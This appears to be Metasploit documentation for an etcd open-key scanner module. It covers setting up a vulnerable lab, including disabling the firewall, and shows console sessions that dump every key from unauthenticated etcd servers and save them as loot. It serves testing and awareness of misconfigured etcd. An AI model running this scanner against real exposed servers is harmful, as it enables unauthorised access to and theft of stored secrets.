 ## Vulnerable Application

etcd is a distributed reliable key-value store, which when used in an open and default configuration gives
unauthenticated users access to the data stored via HTTP API.

### Centos 7.1

  1. `yum install etcd`
  2. `vi /etc/etcd/etcd.conf` replace (and uncomment) items with `localhost` for your IP.
  3. `systemctl start etcd; systemctl enable etcd`
  4. On Centos 7.1 you need to mod (or disable) the firewall: `systemctl stop firewalld`
  5. Lastly, lets add a key-value for interest: `curl http://[IP]:2379/v2/keys/supersecret -XPUT -d value="password!"`

### Docker

  1. `docker run -p 2379:2379 miguelgrinberg/easy-etcd`

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/etcd/open_key_scanner```
  4. Do: ```set rhosts [IPs]```
  5. Do: ```run```
  6. You should get a JSON response, and the data saved to `loot`.

## Scenarios

### etcd 3.2.15 on CentOS 7.1

```
msf > use auxiliary/scanner/etcd/open_key_scanner
msf auxiliary(scanner/etcd/open_key_scanner) > set rhosts 2.2.2.2
rhosts => 2.2.2.2
msf auxiliary(scanner/etcd/open_key_scanner) > run

[+] 2.2.2.2:2379
Version: {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true,
    "nodes": [
      {
        "key": "/supersecret",
        "value": "password",
        "modifiedIndex": 6,
        "createdIndex": 6
      }
    ]
  }
}

Loot
====

host           service  type       name       content     info       path
----           -------  ----       ----       -------     ----       ----
2.2.2.2                 etcd.data  etcd.keys  text/plain  etcd keys  /root/.msf4/loot/20180325144351_default_2.2.2.2_etcd.data_425280.txt

msf auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host           port  proto  name  state  info
----           ----  -----  ----  -----  ----
2.2.2.2        2379  tcp    etcd  open   {"etcdserver":"3.2.15","etcdcluster":"3.2.0"}
```

### etcd in Docker

```
msf > use auxiliary/scanner/etcd/open_key_scanner
msf auxiliary(scanner/etcd/open_key_scanner) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf auxiliary(scanner/etcd/open_key_scanner) > run

[+] 127.0.0.1:2379
Version: {"etcdserver":"3.1.3","etcdcluster":"3.1.0"}
Data: {
  "action": "get",
  "node": {
    "dir": true
  }
}
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/etcd/open_key_scanner) > loot

Loot
====

host       service  type       name       content    info       path
----       -------  ----       ----       -------    ----       ----
127.0.0.1           etcd.data  etcd.keys  text/json  etcd keys  /root/.msf4/loot/20180328092245_default_127.0.0.1_etcd.data_260058.txt

msf auxiliary(scanner/etcd/open_key_scanner) > services
Services
========

host       port  proto  name  state  info
----       ----  -----  ----  -----  ----
127.0.0.1  2379  tcp    etcd  open   {"etcdserver":"3.1.3","etcdcluster":"3.1.0"}
```
